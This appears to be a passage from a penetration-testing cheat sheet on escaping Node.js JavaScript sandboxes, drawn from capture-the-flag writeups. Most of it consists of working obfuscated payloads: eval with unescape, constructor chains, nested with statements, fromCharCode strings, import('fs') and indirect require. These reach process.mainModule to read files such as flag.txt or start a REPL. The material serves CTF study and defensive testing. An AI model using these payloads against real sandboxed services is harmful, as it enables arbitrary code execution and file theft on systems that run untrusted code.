```javascript
// eval + unescape + regex
eval(unescape(/%2f%0athis%2econstructor%2econstructor(%22return(process%2emainModule%2erequire(%27fs%27)%2ereadFileSync(%27flag%2etxt%27,%27utf8%27))%22)%2f/))()
eval(unescape(1+/1,this%2evalueOf%2econstructor(%22process%2emainModule%2erequire(%27repl%27)%2estart()%22)()%2f/))

// use of with
with(console)log(123)
with(/console.log(1)/index.html)with(this)with(constructor)constructor(source)()
  // Just replace console.log(1) to the real code, the code we want to run is:
  //return String(process.mainModule.require('fs').readFileSync('flag.txt'))

with(process)with(mainModule)with(require('fs'))return(String(readFileSync('flag.txt')))
with(k='fs',n='flag.txt',process)with(mainModule)with(require(k))return(String(readFileSync(n)))
with(String)with(f=fromCharCode,k=f(102,115),n=f(102,108,97,103,46,116,120,116),process)with(mainModule)with(require(k))return(String(readFileSync(n)))

  //Final solution
with(
  /with(String)
    with(f=fromCharCode,k=f(102,115),n=f(102,108,97,103,46,116,120,116),process)
      with(mainModule)
        with(require(k))
          return(String(readFileSync(n)))
  /)
with(this)
  with(constructor)
    constructor(source)()

// For more uses of with go to challenge misc/CaaSio PSE in
// https://blog.huli.tw/2022/05/05/en/angstrom-ctf-2022-writeup-en/#misc/CaaSio%20PSE
```

If **everything is undefined** before executing untrusted code (like in [**this writeup**](https://blog.huli.tw/2022/02/08/en/what-i-learned-from-dicectf-2022/index.html#miscx2fundefined55-solves)) it's possible to generate useful objects "out of nothing" to abuse the execution of arbitrary untrusted code:

- Using import()

```javascript
// although import "fs" doesn’t work, import('fs') does.
import("fs").then((m) => console.log(m.readFileSync("/flag.txt", "utf8")))
```

- Accessing `require` indirectly

[According to this](https://stackoverflow.com/questions/28955047/why-does-a-module-level-return-statement-work-in-node-js/28955050#28955050) modules are wrapped by Node.js within a function, like this:

```javascript
;(function (exports, require, module, __filename, __dirname) {
  // our actual module code
})
```
